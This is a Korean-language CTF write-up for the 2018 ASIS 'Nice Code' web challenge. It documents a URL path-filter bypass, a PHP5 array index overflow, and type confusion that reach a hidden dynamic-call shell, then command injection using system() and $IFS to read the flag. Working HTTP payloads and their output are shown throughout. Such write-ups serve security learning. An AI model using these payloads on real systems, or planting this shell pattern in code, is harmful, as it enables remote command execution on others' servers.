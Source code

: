 # \[2018 ASIS CTF] \[Web] Nice Code
## Keywords
- php type confusion
- php5 array index overflow
- php shell
- command injection

## Solution
Host : http://167.99.36.112:8080/

### Step 1
```
delspon@inj3ct:~$ http http://167.99.36.112:8080/
...
<form action="admin/">
...
```

admin 폴더에 접근해봤습니다.

```
delspon@inj3ct:~$ http -b http://167.99.36.112:8080/admin/
substr($URL, -10) !== '/index.php'
```
필터링이 어떻게 되어 있는지 출력해줍니다. `index.php`로 접근해봅시다.

```
delspon@inj3ct:~$ http -b http://167.99.36.112:8080/admin/index.php
$URL == '/admin/index.php'
```
필터링이 걸리고
```
delspon@inj3ct:~$ http -b http://167.99.36.112:8080/admin/aaa/../index.php
./
```
걸리고
```
delspon@inj3ct:~$ http -b http://167.99.36.112:8080/admin//index.php
//
```
걸리고
```
delspon@inj3ct:~$ http -b http://167.99.36.112:8080/admin/index.php/admin
substr($URL, -10) !== '/index.php'
```
또 걸립니다. 근데 '이게 왜 되지?' 생각해봤는데 필터링이 index.php에 걸려있는 것이 아니라 방화벽이나 다른 곳에서 걸려있나봅니다.
```
delspon@inj3ct:~$ http -b http://167.99.36.112:8080/admin/index.php/admin/index.php
Ok,ok...<br><center style="font-size:36px;"><a href="../../../another/index.php?source">Click here</a></center>
```
그런데 이게 왜 필터링 우회가 되는지는 잘 모르겠습니다...
암튼 우회 완료.

### Step 2
http://167.99.36.112:8080/another/index.php?source에 접속해보면 아래와 같이 난독화된 소스코드가 주어집니다.

```php
<?php
include('oshit.php');
$g_s = ['admin','oloco'];
$__ni = $_POST['b'];
$_p = 1;
if(isset($_GET['source'])){
    highlight_file(__FILE__);
        exit;
}
if($__ni === $g_s & $__ni[0] != 'admin'){
    $__dgi = $_GET['x'];
    $__dfi = $_GET;
    foreach($__dfi as $_k_o => $_v){
        if($_k_o == $k_Jk){
            $f = 1;
        }
        if($f && strlen($__dgi)>17 && $_p == 3){
            $k_Jk($_v,$_k_o); //my shell :)
        }
        $_p++;
    }
}else{    
    echo "noob!";
}
```

우선 첫번째 if 문부터 우회해야 합니다.
`$__ni === $g_s`이려면 `b[0]=admin&b[1]=oloco`입니다. `$__ni[0] != 'admin'`이려면 `b[0]!=admin`입니다. 두개의 조건이 충돌하는데 php5에는서 배열 index 오버플로우 버그가 있습니다. `b[2^32]=b[4294967296]=b[0]`이 됩니다.

```
delspon@inj3ct:~$ http -b -f POST "http://167.99.36.112:8080/another/index.php" 'b[4294967296]=admin' 'b[1]=oloco'
```
`noob!` 문자열이 출력되지 않는 것을 보아 필터링이 우회되었음을 확인할 수 있습니다.

이제 `$f && strlen($__dgi)>17 && $_p == 3`을 충족시켜야 합니다.

`$f!=0`이어야 하므로 `$_k_o == $k_Jk` 조건을 만족시켜야 합니다. `$_k_o`에는 GET 변수명, `$k_Jk`에는 무엇이 들어있을지 모르겠지만 밑에 `$k_Jk($_v,$_k_o)`로 쓰이는 것을 보아 대충 문자열이라고 가정합시다.
![IMAGE](resources/AD0E65400CB0BEC603FD1D058D2E4415.jpg)
위 테이블을 통해 문자열과 0을 비교하면 type confusion이 발생하는 것을 알 수 있습니다.

`strlen($__dgi)>17`이므로 `x=aaaaaaaaaaaaaaaaaaaa`을 입력하면 될 것입니다. 그후 `$p == 3`이므로 GET 파라미터를 3개이상 넣어주면 될 것입니다.
`$k_Jk($_v,$_k_o)`이므로 `$_v`에 커맨드를, `$_k_o` 인자를 넣어주면 됩니다.

따라서 최종적으로 완성되는 payload는 다음과 같습니다.

```
delspon@inj3ct:~$ http -b -f POST "http://167.99.36.112:8080/another/index.php?0=1&x=aaaaaaaaaaaaaaaaaaaa&ls=system&c=dummy" 'b[4294967296]=admin' 'b[1]=oloco'
app
bin
boot
create_mysql_admin_user.sh
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
run.sh
sbin
srv
start-apache2.sh
start-mysqld.sh
sys
tmp
usr
var
```
잘 동작하지만 아래와 같이 스페이스가 들어가면 커맨드가 실행되지 않습니다. 
몇번 시도하면서 커스텀 쉘이 php로 되어있음을 알 수 있었습니다. php에서 $IFS라는 변수를 통해 space 역할을 할 수 있습니다. 
```
delspon@inj3ct:~$ http -b -f POST "http://167.99.36.112:8080/another/index.php?0=1&x=aaaaaaaaaaaaaaaaaaaa&cat\$IFS*/*flag*=system&c=dummy" 'b[4294967296]=admin' 'b[1]=oloco'
ASIS{f52c5a0cf980887bdac6ccaebac0e8428bfb8b83}
```